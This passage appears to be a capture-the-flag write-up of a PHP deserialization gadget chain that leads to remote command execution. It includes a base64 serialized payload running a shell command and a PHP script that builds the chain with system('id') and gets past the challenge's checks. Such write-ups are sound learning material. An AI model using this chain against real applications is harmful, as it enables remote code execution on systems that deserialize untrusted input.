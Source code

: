 **Explanation from H0j3n:**

- `__construct()` in GadgetOne = Use this to set `$x` to `Vuln()` with RCE + bypass the `waf1,waf2,waf3`
- `__destruct()` in GadgetTwo = Inside here got echo which will be use to trigger `__toString()`. But to trigger `__destruct()`, from what I know we need to make it exit/exception which we can set the `$klass` with the object of GadgetOne itself.

**Useful functions in `ReflectionClass` that make this method work:**

**setAccessible() →** Make the property/variable accessible.

**setValue() →** Set the value for the property/variable.

**Running the code above, will generate the payload in base64-encoded form:**

```php
TzoxNzoiR2FkZ2V0VHdvXEVjaG9lcnMiOjE6e3M6ODoiACoAa2xhc3MiO086MTY6IkdhZGdldE9uZVxBZGRlcnMiOjE6e3M6MTk6IgBHYWRnZXRPbmVcQWRkZXJzAHgiO086MTY6IkdhZGdldFRocmVlXFZ1bG4iOjQ6e3M6NDoid2FmMSI7aToxO3M6NzoiACoAd2FmMiI7czo0OiLerb7vIjtzOjIyOiIAR2FkZ2V0VGhyZWVcVnVsbgB3YWYzIjtiOjA7czozOiJjbWQiO3M6MjA6InN5c3RlbSgnY2F0ICoudHh0Jyk7Ijt9fX0=
```

---

## Approach 2 (credit to HeapCreate)

```php
<?php

namespace GadgetOne {
    class Adders {
        private $x;
        function __construct($x) {
            $this->x = $x;
        }
    }
}

namespace GadgetTwo {
    class Echoers {
        protected $klass;
    }
}

namespace GadgetThree {
    class Vuln {
        public $waf1 = 1;
        protected $waf2 = "\xde\xad\xbe\xef";
        private $waf3 = false;
        public $cmd = "system('id');";
    }
}

namespace {
    $GadgetThree = new GadgetThree\Vuln();
    $GadgetOne = new GadgetOne\Adders($GadgetThree);
    $GadgetTwo = new GadgetTwo\Echoers();
    $reflectionClass = new ReflectionClass($GadgetTwo);
    $reflectionProperty = $reflectionClass->getProperty("klass");
    $reflectionProperty->setAccessible(true);
    $reflectionProperty->setValue($GadgetTwo, $GadgetOne);

    $serialized = base64_encode(serialize($GadgetTwo));
    echo $serialized."\n";
}
```
